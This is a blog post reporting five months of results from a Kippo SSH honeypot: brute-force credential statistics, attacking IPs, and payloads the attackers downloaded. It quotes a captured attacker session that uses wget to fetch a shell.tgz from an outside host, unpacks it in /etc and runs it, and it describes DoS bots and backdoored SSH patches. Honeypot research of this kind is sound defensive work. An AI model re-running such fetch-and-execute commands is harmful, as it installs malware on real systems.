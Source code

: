 ```yaml
--- 
title: 'Running a Kippo Honeypot: Part two'
categories: 
- honeypot
- hacking
- ssh
- kippo
layout: post
date: 2014-04-27
---
```


Over a year has now passed since I [started playing](http://hackerific.net/2013/04/15/running-a-kippo-honeypot/) with the [Kippo](https://code.google.com/p/kippo/) honeypot, so a quick second post about my findings is _long_ overdue!

I ran Kippo on an overpriced cheap VPS with two-IPs pretty much continuously from between April and September 2013. That's 5 months (154 days). I wrote a short post near the beginning of that time. In my original post on this subject I waffled a bit about how almost all of the attacking traffic I saw was from Chinese IPs and mentioned a few attempted passwords with high entropy. In this post I want to summarise what I saw over the full 5 month period.

## Credentials

First, credentials. The honeypot was configured with a single user account `root` and the password `123456`.

In the time the honeypot was running, I logged 71,264 login attempts – about 463 per day (not all that many, really), and of those attempts 395 were successful.

The most attempted username was `root`, and sorted by number of attempts, the top ten usernames were:

    44193 root
      819 bin
      657 test
      554 oracle
      343 nagios
      240 user
      227 postgres
      189 guest
      187 admin
      157 apache
    
It's interesting that `oracle`, `nagios` and `postgres` all appear more frequently than `apache` or `www-data` (which is even further down the list). Could these indicate a general lack of good security practices on some database and monitoring servers? In that case, where's MySQL? 
    
Counts of password attempts were spread more evenly than usernames, and the most attempted passwords were `changeme`, `123456` and `password`. The list below shows the top ten:
    
    1661 changeme
    1475 123456
    1023 password
     930 1234
     839 abc123
     627 test
     599 12345
     420 123
     327 qwerty
     227 111111
     
This really has to be about the worst possible wordlist. In all, the logs contain login attempts with 6,122 distinct usernames and 18,561 different passwords.

### Strange credentials

I wrote about some of the higher entropy passwords in my last post, highlighting a few of the more interesting strings, but this time some were even more strange. 

Some of the password strings with the highest entropy, according to [Data::Password::Entropy](https://metacpan.org/pod/Data::Password::Entropy) are:

      khaled-dico-ana-wla-akhou-charmouta-feh-kess-ekhtak-bi-ayri-a5ou-a7beh
      sss!Qazxsw22243s2lakeprostsssz1,zPlastaicatraglake
      efwef58sdf2cvsd1*!#&$#_)claudia69iLiE
      Fum4tulP0@t3Uc1d3R4uD3T0t!@#$%^%^&*?
      khaled-dico-ana-wla-akhou-charmouta-tfeh-kess-ekhtak-bi-ayri-a5ou-a7beh
      1$EdkQIoSn$T3gzKLxlcxF7tsTCFqC8M
      209*7fdlkdf%0@)(fUF786__fdk^%^Djfdsahfdsf886D&S%*fd
      dragomirdumitru1q2w3e4r5tsfgdfhvd!Q@W#E$Rsdfdf
      B*(&%^#$SSH?M?a+k3f123!^*backIleSSH@q!@#D
      ortega.123#TradeLinuxKi!l|iN6#Th3h03$%nix@NdR3b!irD


Bizarre! I find it hard to believe that real-life systems are compromised using these passwords, so I suspect that as I said in my previous post they're either set by other tools, or perhaps they're some sort of strange meme which is gradually propagating through script kiddie's word lists. 

I also find the idea that they're '[vanity strings](http://rud.is/b/2012/06/28/honeypot-analytics/)' unlikely, but like the idea that there are thousands of Chinese script kiddies running SSH scanners solely to get into geek's blog posts. 

## Attacker's IPs

As before, Chinese IPs are dominant, but there's also a significant amount of traffic from South America and from cheap hosting companies elsewhere. Here's a list of the top ten individual IPs and country information:

    7129 219.235.230.197  China
    2978 218.85.135.29    China
    2230 218.200.117.241  China
    2153 61.145.121.83    China
    2153 177.86.68.2      Brazil
    2150 188.40.92.147    Germany
    1883 200.54.114.51    Chile
    1847 183.180.32.234   Japan
    1556 218.104.145.16   China
    1438 61.139.54.71     China

I don't think there's anything surprising there.

## Downloads & Sessions

There wasn't much download activity, which is interesting and probably indicates that lots of SSH scanners just run unattended on large blocks and their owners check the results later. Or it could indicate a lack of realism in my honeypot setup.

Over the entire time the honeypot was running there were 25 downloads in total. Most of these were tarballs of scanning tools, but four of the 25 were cachefly test files and Microsoft service packs. In these cases I think the attackers were probably intending to use the system in DoS attacks, and were using the big downloads to judge available bandwidth. 

Here's an example terminal session:

    wget http://cachefly.cachefly.net/100mb.test
    cd /etc; wget http://rootnr1.net76.net/shell.tgz; tar xvf shell.tgz; rm -rf shell.tgz; cd rc.9; chmod +x *
    ./go
    
… at this point kippo starts playing games with the user and they invariably log off but I still have the files to play with. In this case, the payload contains several shell and perl scripts and a lot of pre-compiled binaries, all of which are unpacked into a directory called `rc.9`.     

The perl scripts include [Hawker Hunter v2.0](http://pastebin.com/HVpaBr9u), an IRC bot with port scanning and DoS capabilities and another DoS tool which contains the string "GlobaL Team atack victim" (sic).

Running strings on the binaries reveals some interesting, if dated things. For example, one of the files `h` contains:

    Hide - Process Faker, by Schizoprenic Xnuxer Research (c) 2002
    
And another `stream` contains:

    stream.c v1.0 - TCP Packet Storm
    
Which, according to [this mailing list post](http://packetstormsecurity.com/files/10836/stream-dos.txt.html) from 2000 might exploit an old DoS vulnerability in FreeBSD, Solaris and Linux. It's not clear to me if this is still relevant on modern systems, and if not this payload could have been around for ages. In fact, one of the most noticeable aspects of the payloads I saw was their age; everything's old!.

## Shall we play a game?

Other payloads I saw included a couple of backdoored SSH daemons, one of which includes the amazingly named `openssh-3.6.1p2-backdoor.patch`, and a few different IRC bots and bouncers, such as PyBNC.

The contents of these other downloads are interesting enough to be the subject of another post (in another year?!), so I'll leave with this recorded terminal session:

<script type="text/javascript" src="https://asciinema.org/a/8346.js" id="asciicast-8346" async></script>








    


